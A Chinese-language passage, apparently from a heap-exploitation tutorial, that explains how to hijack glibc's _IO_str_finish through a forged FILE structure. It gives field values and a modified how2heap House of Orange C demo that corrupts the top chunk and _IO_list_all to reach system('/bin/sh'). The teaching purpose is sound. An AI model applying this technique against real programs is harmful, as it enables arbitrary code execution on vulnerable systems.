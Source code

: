 条件：

1. _IO_buf_base不为空
2. _flags & _IO_USER_BUF(0x01) 为假

构造如下：

```bash
_flags = (binsh_in_libc + 0x10) & ~1
_IO_buf_base = binsh_addr

_freeres_list = 0x2
_freeres_buf = 0x3
_mode = -1
vtable = _IO_str_finish - 0x18
fp+0xe8 -> system_addr
```



#### 示例

修改了 how2heap 的 houseoforange 代码，可以自己动手调试一下。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    // unsorted bin attack
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;
    // _IO_str_finish conditions
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack

    top[0] = ((size_t) &binsh_in_libc + 0x10) & ~1;
    top[7] = ((size_t)&binsh_in_libc); // buf_base

    // house_of_orange conditions
    top[1] = 0x61;
    top[5] = 0x1 ; //_IO_write_ptr
    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t) stdin - 0x33f0 - 0x18;
    top[29] = (size_t) &winner;
		top[30] = (size_t) &top[30];
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

